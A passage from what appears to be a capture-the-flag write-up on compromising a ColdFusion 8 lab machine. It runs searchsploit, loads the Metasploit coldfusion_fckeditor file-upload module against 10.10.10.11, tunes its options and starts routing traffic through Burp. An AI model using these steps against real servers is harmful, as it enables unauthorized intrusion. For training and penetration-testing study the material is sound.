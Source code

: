 *an “administrator” page is found.*
`administrator/`

![](https://paper-attachments.dropbox.com/s_70F45A0969F37A99ED1A657AF2E8D7B314564C871AC1961D0B84F468D38FDF75_1557379302806_image.png)

*if page loads correct should say Cold Fusion 8*

## searchploit
    searchsploit coldfusion

![](https://paper-attachments.dropbox.com/s_70F45A0969F37A99ED1A657AF2E8D7B314564C871AC1961D0B84F468D38FDF75_1557379408282_image.png)

*we have results pointing to the version 8.x.x but are cross site scripting. But there is* 

![](https://paper-attachments.dropbox.com/s_70F45A0969F37A99ED1A657AF2E8D7B314564C871AC1961D0B84F468D38FDF75_1557379451640_image.png)

*which is a metasploit file upload, a possible way to get a foothold into the box.*

## metasploit
    msfconsole
    search coldfusion

![](https://paper-attachments.dropbox.com/s_70F45A0969F37A99ED1A657AF2E8D7B314564C871AC1961D0B84F468D38FDF75_1557379531674_image.png)

`exploit/windows/http/coldfusion_fckeditor` *looks like the same exploit from the searchsploit.*

    use exploit/windows/http/coldfusion_fckeditor
    show options
    set RHOST 10.10.10.11
    set RPORT 8500
    run

![](https://paper-attachments.dropbox.com/s_70F45A0969F37A99ED1A657AF2E8D7B314564C871AC1961D0B84F468D38FDF75_1557379675450_image.png)

*almost immediately fails due to the response time that needs to be adjusted in metasploit.*

Modify advanced options

    advanced options
    set VERBOSE true # to see the output
    run

![](https://paper-attachments.dropbox.com/s_70F45A0969F37A99ED1A657AF2E8D7B314564C871AC1961D0B84F468D38FDF75_1557379781534_image.png)

*hoping to see a POST request and a server response.*

If the module doesn’t support a proxy script we can push the module/communications to burp:

## setup burp to intercept application
proxy tab > options > add proxy listeners
 
![](https://paper-attachments.dropbox.com/s_70F45A0969F37A99ED1A657AF2E8D7B314564C871AC1961D0B84F468D38FDF75_1557379964398_image.png)
